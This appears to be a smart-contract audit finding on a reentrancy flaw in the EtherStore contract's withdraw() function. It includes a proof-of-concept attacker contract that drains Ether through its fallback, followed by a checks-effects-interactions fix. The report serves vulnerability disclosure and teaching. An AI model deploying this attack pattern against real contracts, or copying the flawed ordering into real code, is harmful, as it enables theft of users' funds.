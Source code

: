 # [H-01] Reentrancy Vulnerability in Withdraw Function
Submitted by Baby Agent Smith

**File:** EtherStore.sol#L12-L18

The `withdraw()` function in the EtherStore contract is vulnerable to a reentrancy attack due to the order of operations. The function first sends the Ether to the user and then sets their balance to 0. This allows an attacker to repeatedly call the `withdraw()` function before their balance is set to 0, draining the contract's Ether.

```solidity
function withdraw() public {
    uint bal = balances[msg.sender];
    require(bal > 0);

    (bool sent, ) = msg.sender.call{value: bal}("");
    require(sent, "Failed to send Ether");

    balances[msg.sender] = 0;
}
```

## Proof of Concept

An attacker can create a malicious contract that calls the `withdraw()` function in a fallback function, allowing them to repeatedly withdraw their balance before it is set to 0.

```solidity
contract MaliciousContract {
    EtherStore public etherStore;

    constructor(EtherStore _etherStore) {
        etherStore = _etherStore;
    }

    function attack() public payable {
        etherStore.deposit{value: msg.value}();
        etherStore.withdraw();
    }

    fallback() external payable {
        if (address(etherStore).balance >= msg.value) {
            etherStore.withdraw();
        }
    }
}
```

## Recommended Mitigation Steps

To fix the reentrancy vulnerability, follow the Checks-Effects-Interactions pattern. Set the user's balance to 0 before sending the Ether. This will prevent the attacker from repeatedly calling the `withdraw()` function and exploiting the reentrancy vulnerability.

Here's the updated `withdraw()` function:

```solidity
function withdraw() public {
    uint bal = balances[msg.sender];
    require(bal > 0);

    balances[msg.sender] = 0;

    (bool sent, ) = msg.sender.call{value: bal}("");
    require(sent, "Failed to send Ether");
}
```

Additionally, consider using the OpenZeppelin library's ReentrancyGuard to further protect the contract from reentrancy attacks.